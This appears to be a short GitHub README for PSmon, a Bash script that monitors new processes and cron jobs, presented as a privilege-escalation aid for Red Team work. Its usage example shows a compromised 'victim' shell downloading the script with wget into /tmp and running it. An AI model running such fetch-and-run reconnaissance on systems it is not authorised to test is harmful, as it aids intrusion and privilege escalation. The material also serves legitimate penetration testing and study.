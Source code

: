 # PSmon

Bash script to monitor new processes and cron tasks that run at regular intervals of time.

(Very useful tool to escalate privileges in Red Team operations)

```bash
www-data@victim:~$ cd /tmp
www-data@victim:~$ wget https://raw.githubusercontent.com/d4t4s3c/PSmon/main/PSmon.sh
www-data@victim:~$ chmod +x PSmon.sh
www-data@victim:~$ ./PSmon.sh

successful results:
/bin/bash /directory/evil.sh
/bin/bash /directory/evil.py
/bin/bash -c php /directory/evil.php
```
